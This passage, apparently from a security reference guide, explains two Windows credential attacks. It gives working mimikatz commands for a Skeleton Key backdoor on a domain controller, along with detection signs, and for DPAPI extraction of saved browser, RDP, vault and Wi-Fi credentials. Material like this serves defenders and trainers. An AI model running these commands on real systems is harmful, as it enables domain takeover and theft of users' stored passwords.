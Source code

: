 
### 5. Skeleton Key Attack

**What it does:** Patches LSASS on a domain controller to accept a master password for any account while maintaining normal passwords.

**Why it's dangerous:** Provides persistent backdoor without changing any account passwords or creating new accounts.

```powershell
# Inject skeleton key (default password: "mimikatz")
mimikatz # misc::skeleton

# Authenticate with skeleton key
net use \\dc01\c$ /user:Administrator@corp.local mimikatz
```

**Characteristics:**
- Only works on domain controllers
- Lost on DC reboot (not persistent across restarts)
- Extremely noisy—triggers many EDR alerts
- Requires patching LSASS (dangerous—can crash DC)

**Detection:**
- System Event ID 7045 (new service installation)
- LSASS memory modification alerts
- Unusual authentication patterns

---

### 6. DPAPI Credential Extraction

**What it does:** Decrypts credentials protected by Windows Data Protection API (browsers, RDP, scheduled tasks, wireless passwords).

**Why it matters:** Users store credentials in many places beyond domain authentication.

```powershell
# Dump DPAPI master keys
mimikatz # sekurlsa::dpapi

# Decrypt Chrome credentials
mimikatz # dpapi::chrome /in:"C:\Users\user\AppData\Local\Google\Chrome\User Data\Default\Login Data"

# Decrypt saved RDP credentials
mimikatz # dpapi::cred /in:"C:\Users\user\AppData\Local\Microsoft\Credentials\XXXX"

# Decrypt scheduled task credentials
mimikatz # vault::cred

# Wireless network passwords
mimikatz # dpapi::wifi
```

---
